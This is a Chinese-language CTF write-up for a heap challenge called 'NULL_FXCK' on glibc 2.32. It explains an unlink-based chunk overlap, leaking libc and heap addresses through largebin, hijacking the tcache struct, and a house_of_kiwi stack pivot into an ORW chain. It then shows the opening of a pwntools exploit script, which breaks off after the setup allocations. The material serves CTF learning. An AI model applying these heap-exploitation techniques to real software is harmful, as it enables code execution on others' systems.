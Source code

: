 
**这里以chunk0为例子，注意他的fd是chunk3\+0x20的位置，那么如果截断一下就是chunk3了**


[![](https://img2024.cnblogs.com/blog/3419447/202409/3419447-20240910203743142-1403970523.png)](https://img2024.cnblogs.com/blog/3419447/202409/3419447-20240910203743142-1403970523.png)


**同理chunk5也是一样，那么完成这个再伪造一下prev\_size即可完成unlink，即可申请堆块达到堆块重叠，泄露地址，但是存在00截断，还需要加入到largebin中泄露libc地址以及heap地址**


**那么现在泄露地址的问题解决了，还需要实现任意地址写，那么这里涉及一个知识，我们知道管理tcachebin链表是一个结构体在heap起始处**


**[![](https://img2024.cnblogs.com/blog/3419447/202409/3419447-20240910204311146-480753226.png)](https://img2024.cnblogs.com/blog/3419447/202409/3419447-20240910204311146-480753226.png)**


**其实这个在tls里面有一个指针指向它只是被映射成了这个地址，我们可以找一下**


**[![](https://img2024.cnblogs.com/blog/3419447/202409/3419447-20240910204526845-1874284413.png)](https://img2024.cnblogs.com/blog/3419447/202409/3419447-20240910204526845-1874284413.png)**


**那么通过largebin 劫持这个地址即可劫持到tcachebin链表实现任意地址写，接下来就是house\_of\_kiwi，实现栈迁移，提前把orw链子写入到chunk里面**


**EXP：**



```
from gt import *

con("amd64")
libc = ELF("./libc-2.32.so")

io = process("./NULL_FXCK")

def add(size,msg='\x00'):
    io.sendlineafter(">> ",'1')
    io.sendlineafter("(: Size: ",str(size))
    io.sendafter("(: Content: ",msg)


def edit(index,msg):
    io.sendlineafter(">> ",'2')
    io.sendlineafter("Index: ",str(index))
    io.sendafter("Content: ",msg)



def free(index):
    io.sendlineafter(">> ",'3')
    io.sendlineafter("Index: ",str(index))



def show(index):
    io.sendlineafter(">> ",'4')
    io.sendlineafter("Index: ",str(index))



add(0x418) #0
add(0x1f8) #1
add(0x428) #2
add(0x438) #3
add(0x208) #4
add(0x428) #5
add(0x208) #6
```